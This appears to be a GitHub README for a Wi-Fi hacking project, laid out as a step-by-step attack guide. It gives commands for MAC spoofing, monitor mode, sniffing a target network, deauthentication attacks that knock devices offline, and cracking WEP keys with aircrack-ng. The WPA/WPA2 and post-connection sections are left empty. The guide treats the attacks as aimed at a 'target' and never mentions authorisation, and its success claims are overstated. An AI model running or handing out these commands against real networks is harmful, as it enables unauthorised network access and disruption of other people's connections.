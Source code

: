 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2.

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address on the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream. A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined      and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1: capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2: run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:

### Post-connection attacks

✔️
